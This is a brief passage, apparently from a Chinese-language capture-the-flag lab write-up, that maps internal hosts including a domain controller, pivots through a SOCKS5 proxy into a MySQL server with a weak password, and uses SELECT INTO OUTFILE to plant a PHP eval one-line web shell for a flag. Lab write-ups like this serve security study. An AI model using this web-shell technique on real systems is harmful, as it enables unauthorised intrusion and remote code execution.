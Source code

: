 :::success  
172.22.13.14 `本机地址`  
172.22.13.57 `开放80,22,2049 NFS`  
172.22.13.28 8000,3306,80 WIN-HAUWOLAO，存在 mysql 弱口令  
172.22.13.6 `WIN-DC DC`  
:::

### 代理渗透 mysql

做一个 `windows` sock5 代理，利用 `navicat` 链接上去后  
写 `secure_file_priv` 日志木马

```plain
show variables like "secure_file_priv";
show variables like "%general%"
## 写一个一句话木马
select "<?php eval($_POST[1]);?>" into outfile "C:/phpstudy_pro/WWW/1.php";
```

写木马后，链接地址 `[http://172.22.13.28/1.php](http://172.22.13.28/1.php)`，成功获取 `flag3`

[![](assets/1710899037-18131dc015778280d31f0bcd13999fa8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205206-0347efcc-d56f-1.png)

这里可以创建一个用户连接 `rdp`
